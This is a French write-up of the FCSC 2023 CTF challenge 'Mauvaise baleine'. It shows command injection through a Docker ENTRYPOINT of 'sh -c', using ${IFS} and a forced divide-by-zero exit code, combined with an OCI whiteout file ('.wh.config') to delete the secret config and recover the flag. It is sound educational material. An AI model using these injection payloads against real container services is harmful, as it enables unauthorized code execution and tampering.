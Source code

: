 # Mauvaise baleine (misc, ★★★)
## Présentation
Mauvaise baleine est une épreuve de *misc* au FCSC 2023.

Une archive est donnée. Elle contient deux conteneurs : `server` et
`base-challenge-image`. Chaque conteneur contient un programme en Go dont le
code source est donné.

Le nom de l'épreuve fait référence à Docker.

### base-challenge-image
Le premier conteneur contient un binaire suid, `/change_flag`, et deux fichiers.

Le premier fichier est le flag, situé en `/base-challenge/flag`. L'utilisateur
ne peut pas le lire. Seul `/change_flag` peut le lire et le modifier.

Le deuxième fichier est un secret situé en `/base-challenge/config/secret`.

Le binaire prend deux arguments en paramètre : un secret et un nouveau flag. Le
binaire ouvre `/base-challenge/config/secret`, compare le secret avec le contenu
du fichier. Si le secret est correct, le binaire remplace le flag par le flag
passé en argument et affiche l'ancienne valeur.

Par défaut, le secret est `V3ryS3cr3t` (mais ce secret est changé sur l'instance
à distance).

```
/ $ /change_flag foo bar
invalid secret

/ $ /change_flag V3ryS3cr3t test
FCSC{ThisIsTheFl4g}

/ $ /change_flag V3ryS3cr3t loremipsum
test
```

On remarque que les permissions du dossier `/base-challenge` sont inhabituelles.
En particulier, on remarque qu'il est possible de supprimer des fichiers et d'en
recréer.

```
/ $ stat /base-challenge/
  File: /base-challenge/
  Size: 4096      	Blocks: 16         IO Block: 4096   directory
Device: 3bh/59d	Inode: 10109496    Links: 1
Access: (0777/drwxrwxrwx)  Uid: (    0/    root)   Gid: (    0/    root)
[...]


/base-challenge $ mv config old
/base-challenge $ mkdir config
/base-challenge $ printf test > config/secret
/base-challenge $ /change_flag test aaa
FCSC{ThisIsTheFl4g}
```

Le binaire renvoie 0 si le flag est modifié et 42 sinon.

### server
Le second conteneur contient un autre binaire. Il a accès à la socket unix de
Docker (`/var/run/docker.sock`) qui lui permet d'envoyer des requêtes au démon
Docker.

Le binaire crée un nouveau tag à l'image `base-challenge-image`. Il présente
ensuite un prompt à l'utilisateur qui lui permet de changer le flag.

Lorsque l'utilisateur change le flag, le binaire démarre le conteneur en
exécutant `/change_flag $arg1 $arg2`. Si le conteneur ne renvoie *pas* 42 (c'est
à dire que le flag a été changé), les modifications sont appliquées au tag,
sinon elles sont supprimées.


## Vulnérabilité
La vulnérabilité est assez simple : le conteneur `base-challenge-image` contient
un *entrypoint* qui est :

```
ENTRYPOINT [ "/bin/sh", "-c" ]
```

Cette configuration est vulnérable à une injection de commande :
```
Entrer "help" pour le message d'aide
> change_flag foo $(sleep${IFS}10)
Une erreur interne est survenue.
```

## Exploitation
Cette injection de commande permet d'exécuter des commandes *avant* l'exécution
de `change_flag`.

Il est possible d'utiliser le fait que `/base-challenge` ait des permissions
trop large pour supprimer le dossier config. Cette méthode fonctionne en local.

```
% docker-compose exec server /fcsc2023-mauvaise-baleine
[log] new session f55dd21435f5e91e15584fabd7b19044
Entrer "help" pour le message d'aide
> change_flag  $(cd${IFS}/b*;mv${IFS}config${IFS}old)
[log] change flag with secret ""; new flag: "$(cd${IFS}/b*;mv${IFS}config${IFS}old)"
flag: FCSC{ThisIsTheFl4g}
```

... mais pas à distance !

```
> change_flag  $(cd${IFS}/b*;mv${IFS}config${IFS}old)
invalid secret
```

Il existe un autre moyen de supprimer le dossier `config` : c'est de créer un
fichier `.wh.config` et d'enregistrer les modifications dans le conteneur en
créant une nouvelle couche (*layer*).

Ce comportement est définit dans la
[spécification OpenContainers](https://github.com/opencontainers/image-spec/blob/main/layer.md#whiteouts)

Une nouvelle couche est crée par le conteneur `server` lorsque la valeur
retournée par le conteneur `base-challenge-image` est différent de 42. Cette
condition est remplie lorsque le bon secret est passé au programme.

Il est cependant possible de retourner une valeur que 42 grâce à l'injection de
commande : en faisant une erreur d'exécution dans `sh`.

```
% sh -c 'echo $((1/0))'; echo $?
sh: line 1: 1/0: division by 0 (error token is "0")
127
```

Comme il y a deux arguments, on peut combiner ces deux techniques pour créer un
fichier vide `.wh.config` qui va avoir pour effet de supprimer le dossier
`config`. Une fois le dossier supprimé, le binaire accepte un secret vide.

```
Entrer "help" pour le message d'aide
> change_flag $(>/base-challenge/.wh.config) $((1/0))
flag: /bin/sh: divide by zero
> change_flag  flag
flag: FCSC{e71b709df406f96fc0af5422b121a169801385b5659fa3fd4bd1073b2308fc3c}>
```


**Flag**: `FCSC{e71b709df406f96fc0af5422b121a169801385b5659fa3fd4bd1073b2308fc3c}`
